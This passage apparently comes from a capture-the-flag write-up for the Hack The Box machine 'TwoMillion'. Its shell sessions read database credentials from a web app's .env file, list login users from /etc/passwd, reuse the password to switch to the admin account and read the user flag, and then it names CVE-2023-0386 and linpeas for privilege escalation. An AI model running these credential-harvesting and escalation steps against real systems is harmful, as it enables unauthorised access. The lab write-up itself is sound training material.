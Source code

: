 ```bash
www-data@2million:~/html$ ls -la
ls -la
total 56
drwxr-xr-x 10 root root 4096 Jul  5 06:30 .
drwxr-xr-x  3 root root 4096 Jun  6 10:22 ..
-rw-r--r--  1 root root   87 Jun  2 18:56 .env
-rw-r--r--  1 root root 1237 Jun  2 16:15 Database.php
-rw-r--r--  1 root root 2787 Jun  2 16:15 Router.php
drwxr-xr-x  5 root root 4096 Jul  5 06:30 VPN
drwxr-xr-x  2 root root 4096 Jun  6 10:22 assets
drwxr-xr-x  2 root root 4096 Jun  6 10:22 controllers
drwxr-xr-x  5 root root 4096 Jun  6 10:22 css
drwxr-xr-x  2 root root 4096 Jun  6 10:22 fonts
drwxr-xr-x  2 root root 4096 Jun  6 10:22 images
-rw-r--r--  1 root root 2692 Jun  2 18:57 index.php
drwxr-xr-x  3 root root 4096 Jun  6 10:22 js
drwxr-xr-x  2 root root 4096 Jun  6 10:22 views
www-data@2million:~/html$ cat .env
cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
www-data@2million:~/html$
```

```bash
www-data@2million:~/html$ cat /etc/passwd|grep sh$
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash
admin:x:1000:1000::/home/admin:/bin/bash
www-data@2million:~/html$ su - admin
Password:
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@2million:~$ whoami
admin
admin@2million:~$ cat /home/admin/user.txt
52c9066f6c9c7d7fdf73f714668d7dde
```


# Root Flag
---


## CVE-2023-0386

Ran `linpeas`
